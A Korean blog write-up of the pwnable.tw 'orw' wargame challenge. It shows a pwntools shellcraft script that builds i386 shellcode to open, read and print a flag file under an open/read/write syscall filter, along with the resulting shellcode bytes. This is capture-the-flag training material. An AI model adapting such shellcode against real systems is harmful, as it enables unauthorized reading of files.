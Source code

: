 ```yaml
---
layout: post
title: ! ' [pwnable.tw] orw (100pt) '
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Wargame
---
```


심심해서 [pwnable.tw](https://pwnable.tw/challenge/) 쉬운 문제 풀었다.

근데 쉘크래프트 써본게 처음이라 정리 해 본다.

<!--more-->

## 개요

사실 이전에도 그랬고, 한땀 한 땀 `shellcode` 작성하다가 화가 나는 경험을 많이 했다.

그런데 이번에 문제풀다가 코드 자체를 잘못짰다는걸 깨닫고 멘붕에 빠져서 푸는걸 접으려고 했는데, `pwntools`에서 제공하는 `shellcraft` 생각이 나서 마지막으로 속는다고 생각하고 공부했다.

그런데 공부하길 잘한 것 같다 :D



## orw

문제는 그렇게 안 어렵다. 쉘 코드를 올리면 바로 실행되는데 대신 시스템 콜은 o(pen), r(ead), w(rite)만 가능하다. 근데 저거 주면... 당연히 다 준거다...

쉘 코드를 만들 줄 아냐고 물어보는 문제 같은데, 만들다가 너무 귀찮아서 때려칠려는 찰나 `shellcraft`느님이 강림하셨으니!!!



## Generating Shellcode

```python
from pwn import *

context(arch='i386', os='linux')

def genCode(sc) :
    return "".join(['\\x{:02X}'.format(ord(i)) for i in asm(sc)])

#print "".join(['\\x{:02X}'.format(ord(i)) for i in asm(shellcraft.open('/home/orw/flag').rstrip())])

shellcode = (genCode(shellcraft.open('/home/orw/flag').rstrip()))
shellcode += (genCode(shellcraft.syscall('SYS_read', 3, 'esp', 64).rstrip()))
shellcode += (genCode(shellcraft.syscall('SYS_write', 1, 'esp', 64).rstrip()))

print shellcode
log.info(len(shellcode))
```

> root@ubuntu:~/challenges/pwnable.tw/orw# python shellcode.py 
>
> \x68\x01\x01\x01\x01\x81\x34\x24\x60\x66\x01\x01\x68\x77\x2F\x66\x6C\x68\x65\x2F\x6F\x72\x68\x2F\x68\x6F\x6D\x89\xE3\x31\xC9\x31\xD2\x6A\x05\x58\xCD\x80\x6A\x03\x58\x6A\x03\x5B\x89\xE1\x6A\x40\x5A\xCD\x80\x6A\x04\x58\x6A\x01\x5B\x89\xE1\x6A\x40\x5A\xCD\x80
>
> [*] 256

와우...

쉘코드가... 그냥 뚝딱 하고 나와버린다.

사랑합니다 `pwntools` ㅠㅠㅠㅠㅠ
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTEzODAwODkxMDFdfQ==
-->
